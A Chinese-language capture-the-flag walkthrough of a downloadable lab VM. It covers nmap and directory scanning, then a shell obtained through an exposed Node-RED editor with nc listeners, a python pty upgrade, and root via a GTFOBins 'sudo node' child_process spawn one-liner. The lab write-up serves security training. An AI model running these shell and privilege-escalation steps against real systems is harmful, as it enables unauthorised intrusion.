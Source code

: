 ## 复盘*

## 靶机地址

[Proton Drive](https://drive.proton.me/urls/J91VS4J4BM#ZRRl4XDDwtvM)

![image-20250324102621235](./assets/image-20250324102621235.png)



## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan 
```

![image-20250324102717007](./assets/image-20250324102717007.png)

创建nmapscan文件夹用来存放nmap扫描结果



#### 主机探测

```
nmap -sn 192.168.23.0/24
```

![image-20250324102746519](./assets/image-20250324102746519.png)

确定靶机ip：

192.168.23.142



#### 端口扫描

```
nmap -p- --min-rate 10000 -sT 192.168.23.142 -oA ./nmapscan/ports
```

![image-20250324102830820](./assets/image-20250324102830820.png)

开放了：

- 22 ssh
- 80 http
- 1888 vsat-control



#### 提取端口信息

```
ports
```

![image-20250324103028586](./assets/image-20250324103028586.png)



#### 详细结果扫描

```
nmap -sT -sC -sV -O -p 22,80,1880 192.168.23.142 -oA ./nmapscan/detail
```

![image-20250324103114152](./assets/image-20250324103114152.png)

分析：

- 22 ssh OpenSSH 8.4p1
- 80 http Apache httpd 2.4.56
- 1880 http Node.js Express framework



### 80端口

### 访问192.168.23.142:80

![image-20250324103315069](./assets/image-20250324103315069.png)

apache主页

查看源码无信息



#### dirsearch目录扫描

```
dirsearch -u http://192.168.23.142
```

![image-20250324103443517](./assets/image-20250324103443517.png)

无结果



#### gobuster目录扫描

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://192.168.23.142 -x php,txt
```

![image-20250324103543010](./assets/image-20250324103543010.png)

无结果



### 1880端口

#### 访问192.168.23.142:1880

![image-20250324103628770](./assets/image-20250324103628770.png)

Node-RED



#### 利用node-RED创建TCP输入节点，执行节点和输出节点实现数据传输

输入节点

![image-20250324104754203](./assets/image-20250324104754203.png)

执行节点

![image-20250324104806812](./assets/image-20250324104806812.png)

输出节点

![image-20250324104824860](./assets/image-20250324104824860.png)

![image-20250324104852389](./assets/image-20250324104852389.png)



#### 本地开启监听

```
nc -lvp 8800
nc -lvp 8801
```

![image-20250324104924131](./assets/image-20250324104924131.png)

![image-20250324105003194](./assets/image-20250324105003194.png)



## 提权

### python转换终端

```
python -c "import pty;pty.spawn('/bin/bash')"
```

![image-20250324105035423](./assets/image-20250324105035423.png)



### 得到第一个flag

```
ls
cat user.txt
```

![image-20250324105119310](./assets/image-20250324105119310.png)



### 执行sudo -l

```
sudo -l
```

![image-20250324105135723](./assets/image-20250324105135723.png)

无密码执行node



### node提权

[GTFOBins](https://gtfobins.github.io/)

```
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
whoami
```

![image-20250324105228755](./assets/image-20250324105228755.png)



### 得到第二个flag

```
cd /root
ls
cat root.txt
```

![image-20250324105249056](./assets/image-20250324105249056.png)
